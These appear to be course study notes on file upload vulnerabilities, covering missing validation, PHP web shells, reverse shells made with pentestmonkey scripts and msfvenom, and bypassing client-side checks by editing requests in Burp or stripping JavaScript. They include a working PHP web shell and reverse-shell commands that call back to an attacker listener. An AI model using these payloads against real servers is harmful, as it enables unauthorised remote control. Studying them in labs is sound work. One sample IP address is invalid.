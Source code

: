 # File Upload Attacks

File upload vulnerabilities pose significant risks to web applications, arising from inadequate file validation and outdated libraries, enabling attackers to exploit this feature maliciously. Such attacks range from unauthenticated arbitrary file uploads, leading to remote command execution via web shells or reverse shells, to introducing vulnerabilities like XSS or XXE, causing Denial of Service (DoS), or overwriting critical files. Mitigating these risks involves implementing robust validation, secure filters, and avoiding outdated libraries, alongside adopting best practices to fortify applications against these threats.

---

# Absent Validation
- **Description**: Web application lacks validation filters, allowing unrestricted file uploads.
- **Risk**: Attackers can upload malicious scripts (e.g., web shells or reverse shells) to interact with the server directly.

### Arbitrary File Upload
- **Scenario**: A web application allows any file types without restrictions on the front-end or back-end.
- **Steps**:
  1. Upload malicious files like `.php` scripts.
  2. Access uploaded scripts via URLs to execute commands or gain control over the server.

### Identifying Web Framework
- **Objective**: Determine the programming language of the web application to upload compatible malicious scripts.
- **Techniques**:
  1. Check for file extensions in URLs (e.g., `.php`, `.asp`).
  2. Use tools like Burp Intruder or Wappalyzer for automation and detection.
  3. Run web vulnerability scanners like Burp/ZAP for further analysis.

### Vulnerability Identification
- **Testing Steps**:
  1. Create a basic script (e.g., ) and upload it.
     ```
     `<?php echo "Hello";?>`
     ```
  3. Confirm upload success by accessing the file URL (e.g., `/uploads/test.php`).
  4. Verify PHP code execution—if successful, the server lacks validation and executes uploaded code.

---

# Upload Exploitation

### Web Shells
- **Purpose**: Web shells enable attackers to interact with the back-end server, execute commands, and further exploit the system.
- **Options**:
  - **Pre-built Web Shells**:
    - Example: `phpbash.php` from phpbash or shells found in SecLists (`/opt/useful/seclists/Web-Shells` directory in PwnBox).
    - Upload the shell via the vulnerable feature and visit its URL (e.g., `http://SERVER_IP:PORT/uploads/phpbash.php`) to interact with the terminal-like interface.
  - **Custom Web Shell**:
    - Example:
      ```php
      <?php system($_REQUEST['cmd']); ?>
      ```
    - Usage:
      - Upload `shell.php` to the vulnerable application.
      - Execute commands using the `?cmd=` parameter (e.g., `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`).
      - **Tip**: Use browser source view ([CTRL+U]) for better display of command outputs.
    - Limitations: May fail due to restricted functions or server-side security measures.

### Reverse Shells
- **Purpose**: Reverse shells provide an interactive connection back to the attacker's machine, allowing direct control of the compromised server.
- **Steps**:
  1. **Pre-built Reverse Shells**:
     - Reliable options: `pentestmonkey PHP reverse shell` or SecLists reverse shells.
     - Edit the script:
       ```php
       $ip = 'OUR_IP';     // CHANGE THIS
       $port = OUR_PORT;   // CHANGE THIS
       ```
     - Start a netcat listener:
       ```bash
       nc -lvnp OUR_PORT
       ```
     - Upload the script via the web application and visit its URL to execute it (e.g., `http://SERVER_IP:PORT/uploads/reverse.php`).
     - Successful connection:
       ```bash
       connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
       # id
       uid=33(www-data) gid=33(www-data) groups=33(www-data)
       ```
  2. **Custom Reverse Shell**:
     - Generate a script using `msfvenom`:
       ```bash
       msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
       ```
     - Start a listener and upload the script. Execute it to establish the connection:
       ```bash
       connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
       # id
       uid=33(www-data) gid=33(www-data) groups=33(www-data)
       ```
     - **Tip**: Reverse shells are generally more interactive and preferred over web shells. However, if outgoing connections are blocked by firewalls or necessary functions are disabled, web shells may serve as a fallback.

### Key Challenges
- **Web Shell Limitations**:
  - Functions like `system()` may be disabled.
  - Web Application Firewalls (WAFs) may block execution.
- **Reverse Shell Limitations**:
  - Firewalls may prevent outgoing connections.
  - Necessary functions might be disabled, requiring alternative exploitation techniques.

---

# Client-Side Validation

### Overview
- Some web applications rely on **client-side JavaScript** for file type validation.
- **Issue**: Client-side validation can be easily bypassed since users have control over the front-end code.
- Methods to bypass validation:
  1. Modify the upload request directly.
  2. Disable or alter the front-end validation code.



#### Back-End Request Modification
1. Capture a valid upload request using Burp Suite.
   ```http
   POST /upload.php HTTP/1.1
   Host: SERVER_IP:PORT
   Content-Type: multipart/form-data; boundary=---BOUNDARY

   Content-Disposition: form-data; name="file"; filename="HTB.png"
   <file content>
   ```
2. Modify the request:
   - Change the `filename` to `shell.php`.
   - Replace the file content with the PHP web shell.
3. Send the modified request:
   - Upon success, receive a response like `File successfully uploaded`.
   - Access the uploaded file (e.g., `http://SERVER_IP:PORT/uploads/shell.php`) to interact with the shell.


#### Disabling Front-End Validation
1. **Inspect the HTML input field**:
   - Use browser tools ([CTRL+SHIFT+C]) to locate:
     ```html
     <input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
     ```
   - Validation includes:
     - `accept=".jpg,.jpeg,.png"`
     - `onchange="checkFile(this)"` (runs JavaScript validation).

2. **Modify the validation rules**:
   - Remove `onchange="checkFile(this)"`.
   - Remove or edit `accept=".jpg,.jpeg,.png"`.

3. **Disable validation logic**:
   - Locate the JavaScript function:
     ```javascript
     function checkFile(File) {
         if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
             $('#error_message').text("Only images are allowed!");
             File.form.reset();
             $("#submit").attr("disabled", true);
         }
     }
     ```
   - Edit the function or delete the extension check entirely.

4. **Upload the web shell**:
   - Without validation, select the web shell file and upload it successfully.


#### Accessing the Uploaded Web Shell
1. Once the shell is uploaded:
   - Inspect the updated profile image with [CTRL+SHIFT+C].
   - Locate the image source:
     ```html
     <img src="/profile_images/shell.php" class="profile-image" id="profile-image">
     ```
2. Visit the file's URL (e.g., `http://SERVER_IP:PORT/profile_images/shell.php`) to interact with the web shell.



#### Key Notes
- **Temporary Changes**: Front-end modifications do not persist through page refreshes.
- **Back-End Security**: If the back-end does not validate files, attackers can bypass client-side restrictions entirely.

---
